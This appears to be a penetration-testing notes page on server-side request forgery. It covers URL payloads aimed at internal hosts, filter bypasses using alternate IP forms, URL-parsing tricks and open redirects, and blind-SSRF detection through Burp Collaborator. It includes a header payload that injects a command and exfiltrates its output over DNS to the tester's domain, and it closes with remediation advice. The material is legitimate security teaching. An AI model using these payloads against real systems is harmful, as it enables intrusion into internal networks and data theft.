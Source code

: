 # Server-Side Request Forgery

Normally when an application seems to take internal URLs or network resources that may be able to be modified. This allows an attacker to cause the server-side application to make requests to an unintended location.

We can find a typical example of this vulnerability as follows:

* A web application allows users to retrieve images by specifying a URL

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://$url/fetch?url=http://$url/image.jpg
```
{% endcode %}

***

* If vulnerable we could replace the reference to the image location with an internal URL

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://$url/fetch?url=http://localhost/admin
```
{% endcode %}

***

* This also could work to reach an IP that is only reachable from the internal network

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://$url/fetch?url=http://$internalIP:$port/admin
```
{% endcode %}

{% hint style="info" %}
If we don't know the exact host in the internal network we scan it with the [_BurpSuite_](../tools-and-utilities.md#burp-suite) _Intruder_ option by changing the target IP. Ex: `192.168.0.X` we could iterate the `X` value until found a valid host response&#x20;
{% endhint %}

***

* &#x20;In some cases there are white-listed or black-listed values. We can have different approaches to bypass this verifications:

{% tabs %}
{% tab title="Case 1" %}
When blocking IP inputs such as _localhost_ or _127.0.0.1_,  we can register our own domain name that resolves to _127.0.0.1_

* BurpSuite offers the domain _spoofed.burpcollaborator.net_ for this purpose
* If we obtain a _421_ or _500_ error it could mean its working but we need other payload
{% endtab %}

{% tab title="Case 2" %}
When blocking IP inputs such as _localhost_ or _127.0.0.1_,  we can use a representation of the IP such as:

* An integer representation like _2130706433_
* An integer representation like _017700000001_
* A shorthand like _127.1_
{% endtab %}

{% tab title="Case 3" %}
Exploiting inconsistencies in URL parsing by checking if arbitrary values are acepted, for example:

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">http://$username@$expected-host       #Embeded credentials
http://$evil-host#$expected-host      #Indicate a fragment
http://$expected-host.$evil-host      #Abuse DNS hierarchy
http://$evil-host#@$expected-host     #Combine techniques
<strong>http://$evil-host%25%32%33@$expected-host/$target #And combine URL encoding
</strong></code></pre>
{% endtab %}

{% tab title="Case 4" %}
We can abuse Open Redirection to bypass some SSRF validations

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#We found a route that makes a rediretion in the URL
/$vuln$point/$query?path=http://$redirection

<strong># This triggers the open redirection on the parameter which we could abuse on a SSRF vulnerable point that validatesthe supplied URL is on the domain
</strong>https://$url/fetch?url=/$vuln$point/$query?path=http://$payload
</code></pre>
{% endtab %}
{% endtabs %}

## <mark style="color:orange;">Blind SSRF</mark>

When the response a back-end request to a supplied URL is not returned in the application's front-end response. To detect them is  recommended  to use out-of-band techniques, to trigger an HTTP request to a domain that we control and monitoring the interactions with that system. For example:

* A site uses software which fetches the URL specified in the _Referer_ header when a page is loaded

{% code overflow="wrap" lineNumbers="true" %}
```bash
#We change the header and make the site fetch our domain
Referer: http://$ourDomain
```
{% endcode %}

***

* We can use [_BurpSuite_](../tools-and-utilities.md#burp-suite) _Collaborator_ as our controlled domain to check the interactions
  * Add the target to the scope
  * Go to the _Extensions_ tab and add/enable the _Collaborator Everywhere_ extension
  * Intercept and forward a petition with every check payload
  * In the _Issues_ section of the _Target_ tab check if any header was detected to be vulnerable

***

* For example, we found the _User-Agent_ is vulnerable to a RCE

{% code overflow="wrap" lineNumbers="true" %}
```bash
# We change the header and make the site fetch our domain
User-Agent: /usr/bin/nslookup $(whoami).<OurDomain> #This could change depending on the vulnerability
Referer: http://192.168.0.1:8080  # We set the internal point to reach, and we could use intruder to find a host and port that answer
```
{% endcode %}

{% hint style="info" %}
After this we can go to Collaborator tab and hit and click _Poll now_. We should see a DNS interaction where the answer to th RCE should appear in the DNS subdomain
{% endhint %}

## <mark style="color:blue;">Remediation Actions for SSRF</mark>

* Avoid using user-supplied URLs directly in server-side HTTP requests
* Only allow URLs that match a strict allowlist (specific domains or IP ranges)
* Block internal network access from the server if not required
* Disable unnecessary URL schemes such as _file://_, _gopher://_, _php://_ or _ftp://_
* Use DNS pinning or validation to ensure domain resolution isn’t bypassed to internal IPs
* Avoid redirects if unnecessary
* Deploy firewall rules to limit which hosts and ports your application can reach externally
